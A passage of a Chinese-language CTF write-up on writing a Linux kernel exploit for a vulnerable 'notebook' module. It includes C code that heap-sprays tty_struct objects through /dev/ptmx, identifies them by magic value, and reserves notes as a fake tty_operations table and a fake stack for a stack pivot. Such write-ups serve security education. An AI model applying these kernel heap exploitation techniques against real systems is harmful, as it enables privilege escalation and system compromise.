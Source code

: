 # Step 13: exp编写——另开线程进行恶意写入
需要注意的是，在read和write函数均有_check_object_size函数调用，用于检查内存块的大小。这里是为了检查note的真实大小是否等于size。为了绕过这个检查，我们除了需要使用noteedit函数外，还需要使用noteadd函数将size改小一些。

修改之前：
![](13.png)
修改之后：
![](14.png)
# Step 14: exp编写——重复打开/dev/ptmx，获取tty_struct地址
在我们阻塞了一些线程之后，打开/dev/ptmx文件，tty_struct就有可能分配到note的地址中：

```c
    for(int i=0; i<0x60; i++)
        ptmx_fds[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    printf("\033[1;32mHeap sprayed by lots of tty_struct by opening /dev/ptmx\n\033[m");
    sleep(1);

    for(int i=0; i<0x10; i++)
        pthread_create(&add_thread, NULL, noteadd_exp, (void*)i);
    notebook_msg(true);
    sleep(1);

//    for(int i=0; i<0x10; i++)
//        sem_post(&add_sem);
//    sleep(1);

    char ttyinfo[0x300];
    memset(ttyinfo, 0, 0x300);
    char* hit_address = NULL;
    int hit_idx = -1;
    char* fake_ttyops_address = NULL;
    int fake_ttyops_idx = -1;
    size_t* fake_stack_address = NULL;
    int fake_stack_idx = -1;
    for(int i=0; i<0x10; i++){
        read(fd, ttyinfo, i);
        int header = *((int*)ttyinfo);
        if(header == 0x5401 || header ==  0x5402){
            hit_address = notebook_msg(false)[i].note;
            hit_idx = i;
        }else{
            if(fake_ttyops_idx == -1){
                fake_ttyops_address = (char*)(notebook_msg(false)[i].note);
                fake_ttyops_idx = i;
            }
            else{
                fake_stack_address = (size_t*)(notebook_msg(false)[i].note);
                fake_stack_idx = i;
            }
        }
        if(hit_address && fake_stack_address)
            break;
    }
```
这里重复打开之后，遍历所有的note，检查其magic魔数以判断是否是tty_struct结构体。对于不是tty_struct结构体的note，我们选择两个出来作为假的tty_operations和假的栈空间，准备用于栈迁移。
